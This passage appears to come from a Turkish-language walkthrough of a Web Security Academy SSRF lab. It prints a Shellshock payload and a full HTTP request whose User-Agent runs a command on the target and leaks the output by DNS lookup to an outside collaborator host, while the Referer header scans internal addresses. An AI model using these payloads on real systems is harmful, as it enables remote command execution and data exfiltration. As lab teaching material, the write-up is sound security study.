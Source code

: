 Burada yazmamız gereken payload şu şekildedir;

```python
() { :; }; /usr/bin/nslookup $(whoami).iiqvmswbzrpcvswekawryb00mkrn5lfha.oast.fun

-------------------------------------------------------------------------
GET /product?productId=2 HTTP/2
Host: 0a19009b0424289883eb883000fb00c9.web-security-academy.net
Cookie: session=7a48GQPaJ004YQ4EYMBrBdZ1mfBrWIcI
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).lvkdg0my1mllm1w38os79x44hvnqbmzb.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§1§:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Bu sayede gönderdiğimiz request ile hedef sistemde istediğimiz bilgiyi elde etmiş bulunmaktayız. 

![Untitled](0x16-Server-Side-Request-Forgery-Nedir-d3c4b2ebcb764d66b80606cea77bf5a5/Untitled-37.png)
